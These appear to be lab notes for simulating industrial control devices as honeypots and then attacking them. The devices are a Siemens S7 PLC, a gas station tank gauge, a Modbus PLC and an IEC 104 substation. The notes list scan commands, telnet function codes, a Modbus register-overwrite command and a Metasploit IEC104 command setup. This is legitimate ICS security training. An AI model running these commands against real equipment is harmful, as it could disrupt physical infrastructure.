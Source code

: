 ## A simple honeypot
sudo python3 -m honeypots --setup telnet,http,smb,vnc,snmp

## PLC Simulation 1
Change the first half part of the MAC address to 001C06 \
conpot -f --template default \
sudo nmap <IP_address> -Pn -sU -p 16100 \
sudo nmap <IP_address> -Pn -p- \
snmp-check --port 16100 <IP_Address>


## S7 PLC Simulation 2
sudo python3 \
import snap7 \
s7 = snap7.server.Server() \
s7.create() \
s7.start() \
s7.get_status()

python2 plcscan.py 192.168.168.11 \
sudo nmap 192.168.168.11 -Pn -p 102 --script ~/ICS_attack_scripts/Redpoint/s7-enumerate \
/usr/share/nmap/scripts/s7-info.nse

msfconsole -> search Siemens \
searchsploit 

## Gas Station Controller Simulation
Automatic Tank Gauge
Change the first half part of the MAC address to 00A0F6 \
conpot -f --template guardian_ast \
sudo nmap 192.168.168.12 -Pn -p 10001 --script ~/ICS_attack_scripts/Redpoint/atg-info.nse \
filetype:pdf I20100 \
https://www.veeder.com/us/sites/veeder.com.us/files/2020-09/576013-818%20-%20TLS-3XX%C2%A0Series%20Consoles%20Troubleshooting%20Guide.pdf \
https://www.ericzhang.me/gas-station-atgs-exposed-to-public/ \
telnet 192.168.168.12 10001 \
CTRL + A and I20100 \
Some function codes: \
I20100 1 In-Tank Inventory Report \
I20200 1 In-Tank Delivery Report \
I20300 1 In-Tank Leak Detect Report \
I20400 1 In-Tank Shift Inventory Report \
I20500 1 In-Tank Status Report

## Modbus PLC Simulation
sudo nmap -Pn 192.168.168.12 -p 502 --script ~/ICS_attack_scripts/Redpoint/modbus-discover.nse
metasploit modules -> search modbus

modbus read 192.168.168.12 %MW0 10
modbus write 192.168.168.12 %MW0 0 0 0 0 0 0 0 0 0 

## Pentesting a ChronoGuard Infrastructure Substation
Change the first half part of the MAC address to 001D59 \
nano .local/lib/python3.10/site-packages/conpot/templates/IEC104/snmp/snmp.xml \
Change the snmp port from 161 into 16100 \
conpot -f --template IEC104 \
sudo nmap 192.168.168.12 -p 2404 --script ~/ICS_attack_scripts/Redpoint/iec-identify.nse \
metasploit -> search iec104 \
use auxiliary/client/iec104/iec104 \
set ASDU_ADDRESS <learn_from_nmap_nse> \
check the ChronoGuard manual \
ASDU_ADDRESS 7720 \
COMMAND_ADDRESS 3348 \
COMMAND_TYPE 45 \
COMMAND_VALUE 0




  
